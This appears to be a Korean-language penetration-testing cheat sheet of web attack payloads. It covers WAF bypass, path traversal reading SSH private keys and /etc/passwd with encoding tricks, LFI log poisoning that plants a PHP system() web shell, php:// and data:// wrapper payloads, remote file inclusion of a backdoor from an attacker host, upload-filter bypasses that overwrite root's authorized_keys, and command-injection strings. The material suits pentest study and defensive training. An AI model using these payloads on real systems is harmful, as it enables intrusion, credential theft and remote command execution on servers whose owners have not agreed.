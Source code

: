 # Bypass WAF
`X-Forwarded-For: 127.0.0.1`

---
# phpinfo.php
- 파일에서 경로 및 사용 가능 코드 확인
- 확장 모듈 확인
---
# 🗂 Directory Traversal (Path Traversal)

`https://example.com/cms/login.php?language=en.html`  
→ `language` 파라미터로 특정 파일을 불러오는 정상 요청

`https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa`  
→ 리눅스 사용자 SSH 개인키 접근

`https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini`  
→ Windows 시스템 설정 파일(win.ini) 접근

---

## 🔑 인코딩이 필요할 때

`../../../../etc/passwd`  
→ 리눅스 사용자 계정 정보

`%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`  
→ `.`을 `%2e`로 인코딩하여 필터 우회

`%252e%252e/%252e%252e/etc/passwd`  
→ 이중 인코딩(Double Encoding)으로 필터 우회

---

# 📄 Local File Inclusion (LFI) - Log Poisoning
```bash
curl http://example.com/index.php?page=../../../../../../../../../var/www/html/index.php
```
- 내부 파일을 읽을 수 있을 때 확인해보기.(패스워드가 노출될 수도 있음.)

```bash
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
→ Apache `access.log`를 LFI로 불러오기

```text
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>
```
→ User-Agent에 PHP 코드 삽입(Log Poisoning)

```bash
../var/log/apache2/access.log&cmd=whoami
```
→ 삽입된 PHP 코드로 명령 실행

---

# 🐘 PHP Wrappers

```bash
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
→ `php://filter`로 파일을 Base64로 인코딩하여 소스코드 노출

```bash
curl "https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
→ `data://` 래퍼로 Base64 인코딩된 PHP 코드 전달 후 `ls` 실행

---

# 🌐 Remote File Inclusion (RFI)

```bash
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
→ 외부 서버의 악성 PHP 파일 로드 후 명령 실행

---

# 📤 File Upload Vulnerabilities

`example.php`  
→ 정상 PHP 파일

`example.pHP`  
→ 대소문자 변형으로 확장자 필터 우회

`example.php.txt`  
→ 이중 확장자로 필터 우회

`upload '../../../../../../../test.txt'`  
→ 업로드 경로를 벗어나 상위 디렉토리에 파일 저장

`upload '../../../../../root/.ssh/authorized_keys'`  
→ SSH 공개키 덮어써서 백도어 접속 가능

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/243fbacc-c0c6-4c3c-a8b8-1ca3b665a05e" />


---

# 💻 Command Injection

`;ifconfig`  
→ 세미콜론(;)으로 기존 명령 종료 후 `ifconfig` 실행

`%3Bifconfig`  
→ 세미콜론(;)을 URL 인코딩한 버전

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
→ PowerShell 환경 여부 및 실행 위치 확인

---

## 📦 POST 데이터에 명령어 삽입하여 필터 우회 후 실행

```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```
